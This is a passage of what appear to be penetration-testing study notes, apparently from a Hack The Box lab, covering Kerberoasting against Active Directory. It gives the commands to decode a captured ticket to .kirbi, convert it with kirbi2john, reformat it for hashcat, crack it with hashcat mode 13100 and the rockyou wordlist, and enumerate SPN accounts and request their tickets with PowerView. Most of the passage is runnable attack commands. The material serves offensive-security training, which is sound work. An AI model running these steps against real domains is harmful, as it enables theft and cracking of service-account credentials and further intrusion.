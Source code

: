 ## Placing the Output into a File as .kirbi
Command:
```
cat encoded_file | base64 -d > sqldev.kirbi
```

## Extracting the Kerberos Ticket using kirbi2john.py
Command:
```
python2.7 kirbi2john.py sqldev.kirbi
```
- Creates crack_file; modify for Hashcat.

## Modifying crack_file for Hashcat
Command:
```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

## Viewing the Prepared Hash
Command:
```
cat sqldev_tgs_hashcat
```

## Cracking the Hash with Hashcat
Command:
```
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

# Automated / Tool Based Route
Quicker Kerberoasting w/ tools.

## PowerView
### Using PowerView to Enumerate SPN Accounts
Commands:
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
- Target specific user for TGS in Hashcat format.

### Using PowerView to Target a Specific User
Command:
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
